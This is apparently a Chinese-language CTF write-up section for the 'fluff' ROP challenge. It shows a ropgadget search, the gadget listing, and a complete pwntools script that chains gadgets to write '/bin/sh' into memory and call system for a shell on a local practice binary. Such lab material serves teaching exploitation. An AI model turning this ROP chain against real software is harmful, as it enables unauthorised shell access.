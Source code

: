 
#### fluff
提示：在使用 ropgadget 搜索时加上参数 `--depth` 可以得到更大长度的 gadgets。
```
$ ropgadget --binary fluff --only "mov|pop|ret|xor|xchg" --depth 20
...
0x0000000000400832 : pop r12 ; mov r13d, 0x604060 ; ret
0x000000000040084c : pop r15 ; mov qword ptr [r10], r11 ; pop r13 ; pop r12 ; xor byte ptr [r10], r12b ; ret
0x0000000000400840 : xchg r11, r10 ; pop r15 ; mov r11d, 0x602050 ; ret
0x0000000000400822 : xor r11, r11 ; pop r14 ; mov edi, 0x601050 ; ret
0x000000000040082f : xor r11, r12 ; pop r12 ; mov r13d, 0x604060 ; ret
```
```python
from pwn import *

system_plt = 0x004005e0
data_addr  = 0x0000000000601050

xor_r11_r11 = 0x0000000000400822
xor_r11_r12 = 0x000000000040082f
xchg_r11_r10 = 0x0000000000400840
mov_r10_r11 = 0x000000000040084c
pop_r12 = 0x0000000000400832

def write_data(data, addr):
    # addr -> r10
    payload  = p64(xor_r11_r11)
    payload += "BBBBBBBB"
    payload += p64(pop_r12)
    payload += p64(addr)
    payload += p64(xor_r11_r12)
    payload += "BBBBBBBB"
    payload += p64(xchg_r11_r10)
    payload += "BBBBBBBB"
    
    # data -> r11
    payload += p64(xor_r11_r11)
    payload += "BBBBBBBB"
    payload += p64(pop_r12)
    payload += data
    payload += p64(xor_r11_r12)
    payload += "BBBBBBBB"
    
    # r11 -> [r10]
    payload += p64(mov_r10_r11)
    payload += "BBBBBBBB"*2
    payload += p64(0)
    
    return payload

payload  = "A"*40
payload += write_data("/bin/sh\x00", data_addr)
payload += p64(system_plt)

io = process('./fluff')
io.recvuntil('>')
io.sendline(payload)
io.interactive()
```
